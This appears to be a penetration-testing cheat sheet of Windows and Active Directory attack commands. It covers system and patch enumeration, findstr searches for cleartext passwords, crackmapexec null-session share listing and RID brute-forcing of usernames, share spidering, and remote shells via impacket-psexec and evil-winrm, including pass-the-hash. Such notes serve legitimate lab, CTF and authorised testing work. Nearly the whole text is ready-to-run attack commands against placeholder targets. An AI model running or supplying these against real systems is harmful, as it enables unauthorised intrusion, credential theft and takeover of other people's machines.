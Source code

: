 Check OS architecture / version:
```powershell
ver
wmic os get osarchitecture
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

Get OS patches:
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

Get OS drives:
```powershell
wmic logicaldisk get caption,description,providername
```
Get network adapters and open ports:
```powershell
ipconfig /all
netstat -ano
```

Get routes:
```powershell
route PRINT
```

Get running processes:

```powershell
tasklist /SVC
```

Get installed patches:

```powershell
wmic qfe
```

Search for cleartext passwords:
```powershell
findstr /si password *.txt
findstr /spin "password" *.*
```

Add domain NB name to /etc/hosts

```bash
crackmapexec smb $TARGET_IP -u '' -p ''
#check for open shares
crackmapexec smb $TARGET_IP -u '' -p '' --shares
```

Enumerate users by brute forcing RID
#rid #bruteforce-rid

```shell
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000
#extract usernames
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000 | grep -o '\\[^ ]*' | awk -F'\\' '{print $2}' | uniq
```

Show all files and DIRs for guest:

```shell
crackmapexec smb $TARGET_IP -u 'guest' -p '' -M spider_plus
```

```shell
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD -M spider_plus --spider users
```

Parse the JSON from the previous cmd into readable form:

```shell
cat $TARGET_IP.json | jq '. |map_values(keys)'
```

Try to connect to console:

```shell
impacket-psexec $USER:$PASSWORD@$TARGET_IP
```

```shell
evil-winrm -i $TARGET_IP -u administrator -p $PASSWORD
```

```shell
evil-winrm -i $TARGET_IP -u administrator -H $HASH
```

```sh
crackmapexec winrm $TARGET_IP -u $USER -p $PASSWORD
```


Port 3389 RDP:

```sh
xfreerdp /v:$TARGET_IP /u:$USER
```